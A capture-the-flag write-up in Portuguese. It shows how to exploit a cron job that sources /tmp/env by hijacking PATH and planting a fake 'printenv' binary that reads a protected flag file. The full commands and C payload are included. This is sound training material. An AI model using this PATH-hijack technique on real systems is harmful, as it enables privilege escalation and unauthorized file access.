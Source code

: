 # British Punctuality

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../img/ctfopcional1a.png)

Verificou-se também que `/tmp` é o único diretório onde o nosso utilizador tem permissões de escrita.
Neste diretório existe um ficheiro `last_log.txt` que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
$ echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

No entanto, como alteramos a variável de ambiente PATH, o programa não vai encontrar o binário `cat` no novo diretório, pelo que temos de o copiar para lá: 

```
$ cp /bin/cat /tmp/myenv
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do **cronscript** e verificou-se que o `last_log` continha a flag tal como previsto:

![CTF Opcional 1 b](../img/ctfopcional1b.png)

